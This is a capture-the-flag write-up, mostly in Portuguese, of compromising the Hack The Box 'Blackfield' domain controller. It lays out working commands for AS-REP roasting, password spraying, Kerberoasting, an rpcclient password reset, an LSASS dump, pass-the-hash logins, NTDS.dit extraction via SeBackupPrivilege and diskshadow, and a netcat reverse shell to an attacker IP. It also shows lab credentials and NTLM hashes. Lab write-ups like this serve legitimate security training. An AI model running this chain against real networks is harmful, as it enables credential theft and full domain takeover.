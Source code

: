 Blackfield
========================

![qownnotes-media-mCrkDI](../../.gitbook/assets/qownnotes-media-mCrkDI.png)

DNS

![qownnotes-media-dgSmXh](../../.gitbook/assets/qownnotes-media-dgSmXh.png)

Kerberos (88)

RPC (135/593)

![qownnotes-media-BPEaBn](../../.gitbook/assets/qownnotes-media-BPEaBn.png)

SMB

![qownnotes-media-NmDyiC](../../.gitbook/assets/qownnotes-media-NmDyiC.png)

    impacket-lookupsid blackfield.local@10.10.10.192

![qownnotes-media-RQJgHM](../../.gitbook/assets/qownnotes-media-RQJgHM.png)

![qownnotes-media-FhwUbl](../../.gitbook/assets/qownnotes-media-FhwUbl.png)

![qownnotes-media-ORXbBb](../../.gitbook/assets/qownnotes-media-ORXbBb.png)

Valid usernames:
```
cat valid_users.txt                             
audit2020
svc_backup
support
lydericlefebvre
```

    impacket-GetNPUsers -request blackfield.local/ -usersfile valid_users.txt -dc-ip 10.10.10.192

![qownnotes-media-qIAMGO](../../.gitbook/assets/qownnotes-media-qIAMGO.png)

    john --wordlist=/usr/share/wordlists/rockyou.txt svc_backup_hash.txt



LDAP (389/3268)

![qownnotes-media-JfBrKY](../../.gitbook/assets/qownnotes-media-JfBrKY.png)


## Exploitation

Creds:

support:#00^BlackKnight

### Password spray

    crackmapexec smb 10.10.10.192 -u valid_users.txt -p passwords.txt --continue

    crackmapexec winrm 10.10.10.192 -u valid_users.txt -p passwords.txt --continue

![qownnotes-media-ZSgQkd](../../.gitbook/assets/qownnotes-media-ZSgQkd.png)

    kerbrute passwordspray -d blackfield.local --dc dc01.blackfield.local valid_users.txt '#00^BlackKnight'

### Shares Enumeration Authenticated

    crackmapexec smb 10.10.10.192 -u support -p passwords.txt --shares

![qownnotes-media-GpUPaM](../../.gitbook/assets/qownnotes-media-GpUPaM.png)

    enum4linux -u support -p '#00^BlackKnight' -a -A 10.10.10.192

Obtive outros usuários

### SPNs Kerberoasting

    impacket-GetUserSPNs -request blackfield.local/support:#00^BlackKnight -dc-ip 10.10.10.192

### Domain Enumeration with bloodhound

Aqui temos algumas coisas interessantes para olhar. Vamos considerar o seguinte:

GenericAll - full rights to the object (add users to a group or reset user's password)
GenericWrite - update object's attributes (i.e logon script)
WriteOwner - change object owner to attacker controlled user take over the object
WriteDACL - modify object's ACEs and give attacker full control right over the object
AllExtendedRights - ability to add user to a group or reset password
ForceChangePassword - ability to change user's password
Self (Self-Membership) - ability to add yourself to a group

Isso pode ser visto nesta sessão do bloodhound:

![qownnotes-media-VpIkpQ](../../.gitbook/assets/qownnotes-media-VpIkpQ.png)

Caso contrário, podemos considerar algumas opções ainda no bloodhound, tais como:

Setar todos os demais usuários como "High Value" e verificar no filtro como fazer para encontrá-lo nas análises e filtros do bloodhound, conforme eu já faço.

Aqui eu notei que o ataque pode ocorrer devido a uma permissão vista conforme o print que tirei acima:

![qownnotes-media-DbfaCf](../../.gitbook/assets/qownnotes-media-DbfaCf.png)

ou 

![qownnotes-media-hjpSiZ](../../.gitbook/assets/qownnotes-media-hjpSiZ.png)

![qownnotes-media-Bytuhu](../../.gitbook/assets/qownnotes-media-Bytuhu.png)


### rpcclient

    rpcclient -U blackfield.local/support 10.10.10.192
    setuserinfo2 audit2020 23 P@ssword!

Agora a gente faz uma nova enumeração de shares e encontramos informações que nos ajudaram a entrar como o svc_backup na máquina:

![qownnotes-media-FvwmuB](../../.gitbook/assets/qownnotes-media-FvwmuB.png)

![qownnotes-media-SSgLdY](../../.gitbook/assets/qownnotes-media-SSgLdY.png)

Baixei esses arquivos, mas o que fez realmente a diferença foi o de memória, onde peguei o LSASS da máquina e fiz o dump da memória com pypykatz:

    pypykatz lsa minidump lsass.DMP

![qownnotes-media-FKKKEa](../../.gitbook/assets/qownnotes-media-FKKKEa.png)

    evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

## PrivEsc

Aqui um aprendizado novo!!!

![qownnotes-media-wuUvdy](../../.gitbook/assets/qownnotes-media-wuUvdy.png)

com a permissão de SeBackupPrivilege dá pra conseguir fazer a cópia dos arquivos mais sensíveis do sistema, tais como o system e a sam, a considerar uma máquina fora do domínio podemos prosseguir com os seguintes comandos:

    reg save hklm\sam c:\Temp\sam
    reg save hklm\system c:\Temp\system

Mas para o caso do Domain Controller, temos de considerar os seguintes comandos:

Criar um arquivo, cujo extensão tem de ser  ".dsh"

    cat test.dsh
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

    unix2dos test.dsh

Subir para a máquina alvo e executar os seguintes comandos:

    diskshadow /s test.dsh
    robocopy /b z:\windows\ntds . ntds.dit
    reg save hklm\system c:\Temp\system
Se atentar somente ao diretório direitinho no qual se está operando:
Baixar os arquivos system e ntds.dit para a máquina do atacante e executar o secretsdump localmente da seguinte maneira:

    impacket-secretsdump -ntds ntds.dit -system system local

![qownnotes-media-CfcHGG](../../.gitbook/assets/qownnotes-media-CfcHGG.png)

    impacket-psexec administrator@10.10.10.192 -hashes :184fb5e5178480be64824d4cd53b99ee

    evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

Subi o psexec para a máquina e o netcat e fiz a shell para system dessa forma:

    .\pe.exe -accepteula -i -s -d c:\temp\n.exe -e powershell 10.10.14.14 8082
 
![qownnotes-media-bFWfpH](../../.gitbook/assets/qownnotes-media-bFWfpH.png)